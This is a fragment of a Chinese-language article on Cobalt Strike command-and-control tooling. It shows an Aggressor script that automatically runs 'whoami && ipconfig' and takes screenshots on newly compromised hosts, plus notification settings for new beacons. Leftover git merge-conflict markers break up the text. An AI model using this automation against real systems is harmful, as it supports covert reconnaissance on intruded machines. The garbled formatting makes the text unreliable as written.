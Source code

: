 [![](assets/1710206030-aee75f94eef5053ab67d8ee278914032.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240311172914-d36405c8-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

> 修复的 screenshot BOF 支持在 Windows 启动全局缩放时依然获取完整屏幕截图

在动态行为侧也远比以下操作更符合 OPSEC 原则：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
on beacon_initial {
        bsleep($1,"0");
        bshell($1,"whoami && ipconfig");
    binput($1,"screenshot");
    bscreenshot($1);
}
```

#### 上线提醒标记

除去常规提醒外，当有多台 C2 服务器时，配置好 cserverName 参数可以在通知标题进行上线提醒的区分：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
$cserverName = "AT";
$pushplusToken = "9db6ca2c7d0xxxxxxxxxxxx363854a8e0";
```

<<<<<<< HEAD